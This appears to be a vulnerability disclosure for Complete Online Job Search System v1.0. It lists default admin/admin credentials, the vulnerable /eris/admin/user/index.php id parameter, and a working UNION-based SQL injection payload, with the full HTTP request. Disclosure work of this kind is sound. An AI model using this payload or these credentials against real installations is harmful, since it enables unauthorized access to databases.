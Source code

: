 # Complete Online Job Search System v1.0 has SQL injection

BUG_Author：朝阳

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/admin/user/index.php?view=edit&id=

Vulnerability location: /eris/admin/user/index.php?view=edit&id=,id

Current database name: erisdb

[+] Payload: /eris/admin/user/index.php?view=edit&id=-00018%27%20union%20select%201,database(),3,4,5,6--+ // Leak place ---> id

```sql
GET /eris/admin/user/index.php?view=edit&id=-00018%27%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170849254-9d50f1e7-d17c-4e8a-ae71-88d9fca54657.png)

![image](https://user-images.githubusercontent.com/54017627/170849257-ac884948-2f73-497f-89cd-c710ddd1f86f.png)

